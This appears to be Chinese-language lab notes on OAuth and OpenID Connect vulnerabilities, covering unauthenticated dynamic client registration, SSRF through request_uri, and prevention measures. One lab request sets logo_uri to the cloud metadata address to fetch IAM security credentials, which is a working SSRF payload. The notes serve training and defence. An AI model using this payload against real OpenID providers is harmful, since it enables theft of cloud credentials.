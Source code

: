 OpenID提供程序应该要求客户端应用程序进行自身身份验证

但是，某些提供程序将允许动态客户端注册而**不进行任何身份验证**，这使攻击者能够注册自己的恶意客户端应用程序

例如，您可能已经注意到其中一些属性可以作为URI提供。如果OpenID提供程序访问其中任何一个，这可能会导致 second-order SSRF漏洞，除非有其他安全措施。

```
	lab：(文档找end-point ，尝试修改动态内容为目标url，然后ssrf)
		○ find the configuration file https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration
		○ try to register 
		
		POST /reg HTTP/1.1
		Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
		Content-Type: application/json
		
		{
		  "redirect_uris" : [
		    "https://example.com"
		  ],
		  "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/""
		}
		○ Go back to the GET /client/CLIENT-ID/logo request and replace the client_id with the new one you just copied

```

#### Allowing authorization requests by reference

- 一些OpenID提供程序提供了将所需参数作为**JSON web令牌（JWT）**传入的选项。

  如果支持此功能，则可以发送**单个`request_uri`**参数，该参数指向包含其余OAuth参数及其值的JSON web令牌。

  此**request_uri**参数可能是**SSRF的另一个潜在vector**。

- 也可以使用此功能绕过这些参数值（如**redirect_uri**）的验证。


- 查找`request_uri_parameter_supported`选项以检查这些参数是否可用

## How to prevent OAuth authentication vulnerabilities

OAuth提供程序和客户端应用程序都必须实现对关键输入的健壮验证，尤其是`redirect_uri`参数

### For OAuth service providers

- 要求客户端应用程序注册有效重定向URI的**白名单**

  - 使用严格的**逐字节**比较来验证任何传入请求中的URI

  - 只允许**完全和精确的匹配**，而不允许使用正则匹配

- 强制使用`state`参数

  - 它的值还应该通过包含一些不可用的、特定于会话的数据（例如包含会话cookie的哈希）绑定到用户的会话

  - 这可以保护用户免受类似CSRF的攻击和密码被盗
